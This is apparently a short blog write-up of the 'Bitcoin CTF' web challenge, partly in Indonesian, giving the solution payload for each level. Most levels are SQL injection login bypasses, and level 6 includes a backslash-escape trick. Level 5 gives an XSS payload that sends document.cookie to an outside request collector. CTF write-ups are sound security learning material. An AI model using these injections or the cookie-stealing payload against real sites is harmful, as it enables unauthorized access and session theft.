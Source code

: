 ```yaml
---
private: 'false'
modified: 'Sat Feb 11 2017 07:00:00 GMT+0700 (WIB)'
layout: post
featured: false
published: true
comments: true
title: Writeup BitcointCTF
tags: sqlinjection
mathjax: false
imagefeature: /images/sqlinjection.jpg
description: Writeup BitcointCTF Challenge
category: Web Exploitation
chart: null
---
```



## Bitcoin CTF

FIRST LEVEL: http://188.166.248.215/ 

prize: 1BtCctfV3MFXQ9zfLq8BkK53cpGdmkA2WL 

what: capture the flag \(CTF\) 

when: 1490349600 irc: \#bitcoinctf on freenode questions: @bitcoinctf or &lt;bitcoinctf \[at\] gmail.com&gt;



### Level 1

Soal : [http://188.166.248.215/](http://188.166.248.215/)

Injection : `1 or (1=1)#`

![](/images/level1-bitcoinctf.png)

### Level 2

Soal : [http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/](http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/)

Injection : `12' or '1'='1`

![](/images/level2-bitcoinctf.png)

### Level 3

Soal : [http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/](http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/)

Injection : `a' or 1=1#`

![](/images/level3-bitcoinctf.png)

### Level 4

Soal : [http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/](http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/)

Injection : `0 -- ' or '1'='1' -- " or "1"="1`

![](/images/level4-bitcoinctf.png)

### Level 5

Soal : [http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/](http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/)

Injection : `<img src=x onerror=this.src='http://requestb.in/191nnlq1?c='+document.cookie>`

![](/images/level5-bitcoinctf.png)

![](/images/level5-bitcoinctf-2.png)



### Level 6

Soal : [http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/](http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/)

  
setelah beberapa kali melakukan injeksi basic seperti `' OR 1=1#` pada kolom username dan password nampaknya tidak berjalan kemudian saya menebak query di backendnya seperti ini : `SELECT * from users where username='$user' and pasword = '$pass'`  


ketika kita coba kirim payload : `aaa\ & password= xxx `

query sebenarnya :` SELECT * from users where username='aaa\' and pasword = ' xxx'`



ketika kita coba kirim payload : `username = aaa\ & password= OR 1=1#`

query sebenarnya : `SELECT * from users where username='aaa\' and pasword = ' OR 1=1#'`

![](/images/level6-bitcoinctf.png)






